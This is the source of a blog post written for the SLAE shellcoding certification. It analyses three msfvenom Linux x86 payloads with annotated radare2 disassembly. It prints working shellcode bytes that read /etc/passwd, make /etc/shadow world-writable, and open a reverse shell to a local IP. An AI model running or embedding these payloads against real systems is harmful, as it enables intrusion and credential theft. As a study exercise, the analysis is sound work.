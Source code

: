 ```yaml
---
layout: post
title: SLAE 0x5 - Assignment 5 - Analyze at least 3 shellcode from msfpayload linux/x86
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to demonstrate Linux shellcoding knowledge by analyzing 3 different shellcode from msfpayload/msfvenom linux/x86 category.

# Methods

I used radare2 with Cutter to analyze the shellcode and display the graph call. No other tools or debuggers were harmed during the process.

# linux/x86/read_file

Simple payload that reads up to 4096 bytes from a file and writes it out onto stdout.

    root@kali:~# msfvenom -p linux/x86/read_file PATH=/etc/passwd -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 73 bytes
    Final size of c file: 331 bytes
    unsigned char buf[] = 
    "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
    "\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
    "\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
    "\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
    "\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

As this shellcode doesn't do a lot of things, it's both simple and small in size. By default msfvenom tries to read /etc/shadow, which so I left it as is. The shellcode relies on JMP-CALL-POP to push */etc/shadow* on the stack, then it starts executing the main part of the shellcode. First it calls SYS_OPEN on /etc/passwd which returns a file descriptor. Using the file descriptor, SYS_READ reads up to 4096 bytes from the file and pushes it onto the stack. The syscall also returns the actual number of bytes read, which the SYS_WRITE call uses later to read the exact number of bytes from the stack. Finally, the shellcode uses SYS_EXIT to gracefully quit.

    / (fcn) fcn.00000000 20
    |   fcn.00000000 ();
    |       ,=< 0x00000000      jmp 0x38 ; jmp to set up /etc/passwd
    / (fcn) fcn.00000002 72
    |   fcn.00000002 ();
    |       |   0x00000002      mov eax, 5 ; sys_open
    |       |   0x00000007      pop ebx ; address of "/etc/passwd"
    |       |   0x00000008      xor ecx, ecx ; null out ECX
    |       |   0x0000000a      int 0x80 ; sys_open - returns file descriptor for file
    |       |   0x0000000c      mov ebx, eax ; move file descriptor into ebx
    |       |   0x0000000e      mov eax, 3 ; sys_read
    |       |   0x00000013      mov edi, esp ; moves stack pointer into edi
    |       |   0x00000015      mov ecx, edi ; moves stack pointer into ecx
    |       |   0x00000017      mov edx, 0x1000 ; size_t count: 4096 bytes max
    |       |   0x0000001c      int 0x80 ; sys_read - attempts to read 4096 bytes onto the stack and returns the number of bytes read
    |       |   0x0000001e      mov edx, eax ; number of read bytes => size_t count
    |       |   0x00000020      mov eax, 4 ; sys_write
    |       |   0x00000025      mov ebx, 1 ; 0x1 stdout
    |       |   0x0000002a      int 0x80 ; sys_write - write EDX number of bytes from the stack to stdout
    |       |   0x0000002c      mov eax, 1 ; sys_exit
    |       |   0x00000031      mov ebx, 0 ; 0x0 error code
    |       |   0x00000036      int 0x80 ; sys_exit
    |       `-> 0x00000038      call 2 ; call part of jmp-call-pop
    |           0x0000003d      das    ; /etc/passwd

**Graph:**

![linux/x86/read_file graph]({{"/content/posts/msfvenom-readpasswd.png" | absolute_url }}){: .center}

# linux/x86/chmod

This shellcode changes the permission settings for a target file. The default setting is to change the permissions of /etc/shadow to 0666.

    root@kali:~# msfvenom -p linux/x86/chmod -f c
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 36 bytes
    Final size of c file: 177 bytes
    unsigned char buf[] = 
    "\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
    "\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
    "\x80\x6a\x01\x58\xcd\x80";

As there is a syscall for chmod (SYS_CHMOD), this shellcode is rather simple. The shellcode pushes /etc/shadow and the required arguments onto the stack, does the syscall and quits gracefully with the SYS_EXIT call.

    / (fcn) fcn.00000000 36
    |   fcn.00000000 ();
    |           0x00000000      cdq    ; sets EDX 0 if EAX is positive
    |           0x00000001      push 0xf ; 15 ; 15 - sys_chmod
    |           0x00000003      pop eax ; sys_chmod
    |           0x00000004      push edx ; push 0x0
    |           0x00000005      call 0x16 ; pushes /etc/shadow address on the stack
    |           0x0000000a      das    ; /etc/shadow
    |       ,=< 0x0000000b      je 0x71 ; data
    |       |   0x0000000e      das    ; data
    |      ,==< 0x0000000f      jae 0x79 ; data
    |      ||   0x00000011      popal  ; data
    |      ||   0x00000012           .byte 0x64 ; data
    |      ||   0x00000013      outsd dx, dword [esi] ; data
    |      ||   0x00000014      ja 0x16 ; data
    |      ||   0x00000016      pop ebx ; pops /etc/shadow address into ebx
    |      ||   0x00000017      push 0x1b6 ; 438 ; octal 0666
    |      ||   0x0000001c      pop ecx ; mode_t mode
    |      ||   0x0000001d      int 0x80 ; sys_chmod
    |      ||   0x0000001f      push 1 ; 1 ; sys_exit
    |      ||   0x00000021      pop eax ; sys_exit => eax
    \      ||   0x00000022      int 0x80 ; sys_exit


**Graph:**

![linux/x86/chmod graph]({{"/content/posts/msfvenom-chmod.png" | absolute_url }}){: .center}

# linux/x86/shell_reverse_tcp 

This shellcode connects to a host on a given TCP port and opens a /bin/sh shell.

    root@kali:~# msfvenom -p linux/x86/shell_reverse_tcp -f c LHOST=192.168.1.100 LPORT=1337
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 68 bytes
    Final size of c file: 311 bytes
    unsigned char buf[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
    "\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x01\x64\x68"
    "\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
    "\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
    "\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

This shellcode is very similar to the one I did in Assignment 2, but the order of the syscalls is different. First the code creates a socket with SYS_SOCKETCALL-SYS_SOCKET and connects it to stdin, stdout and stderr with DUP2. After these are done, SYS_SOCKETCALL-SYS_CONNECT connects to the remote address and then the code invokes a /bin/sh shell. Other than the different order, it's basically the same workflow as the shellcode in SLAE0x2.

        / (fcn) fcn.00000000 68
    |   fcn.00000000 ();
    |           0x00000000      xor  ebx, ebx ; EBX = 0x00
    |           0x00000002      mul  ebx ; EBX * EAX => EAX = 0x00
    |           0x00000004      push ebx ; any protocol
    |           0x00000005      inc  ebx ; 0x1 - SYS_SOCKET
    |           0x00000006      push ebx ; 0x1 SOCK_STREAM
    |           0x00000007      push 2 ; 2 ; 0x2 AF_INET
    |           0x00000009      mov  ecx, esp ; call args
    |           0x0000000b      mov  al, 0x66 ; 'f' ; 102 ; sys_socketcall
    |           0x0000000d      int  0x80 ; SYS_SOCKETCALL -> SYS_SOCKET
    |           0x0000000f      xchg eax, ebx ; move file descriptor into EBX
    |           0x00000010      pop  ecx ;  call args
    |       .-> 0x00000011      mov  al, 0x3f ; '?' ; 63 ; dup2
    |       :   0x00000013      int  0x80 ; SYS_DUP2
    |       :   0x00000015      dec  ecx ; 0x2 - stderr, 0x1 - stdout, 0x0 - stdin
    |       `=< 0x00000016      jns  0x11 ; jmp if sign is positive
    |           0x00000018      push 0x6401a8c0 ; 100 1 168 192 (decimal)
    |           0x0000001d      push 0x39050002 ; 0x3905 - 1337 0x0 0x2 - AF_INET
    |           0x00000022      mov  ecx, esp ; function args
    |           0x00000024      mov  al, 0x66 ; 'f' ; 102 ; SYS_SOCKETCALL
    |           0x00000026      push eax ; 0x1
    |           0x00000027      push ecx ; function args
    |           0x00000028      push ebx ; file descriptor
    |           0x00000029      mov  bl, 3 ; 0x3 - SYS_CONNECT
    |           0x0000002b      mov  ecx, esp
    |           0x0000002d      int  0x80 ; SYS_SOCKETCALL -> SYS_CONNECT
    |           0x0000002f      push edx ; 0x0
    |           0x00000030      push 0x68732f6e ; 'n/sh'
    |           0x00000035      push 0x69622f2f ; '//bi'
    |           0x0000003a      mov  ebx, esp ; //bin/sh0x00
    |           0x0000003c      push edx ; 0x0
    |           0x0000003d      push ebx ; file descriptor
    |           0x0000003e      mov  ecx, esp ; address of //bin/sh, 0x00
    |           0x00000040      mov  al, 0xb ; 11 ; SYS_EXECVE
    \           0x00000042      int  0x80 ; SYS_EXECVE //bin/sh


**Graph:**

![linux/x86/shell_reverse_tcp graph]({{"/content/posts/msfvenom-reversetcp.png" | absolute_url }}){: .center}

# Final Thoughts

A great little challenge, it was awesome to finally understand how some of the basic msfvenom shellcodes work. After looking at them, I feel that I would probably use them later instead of larger payloads.

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).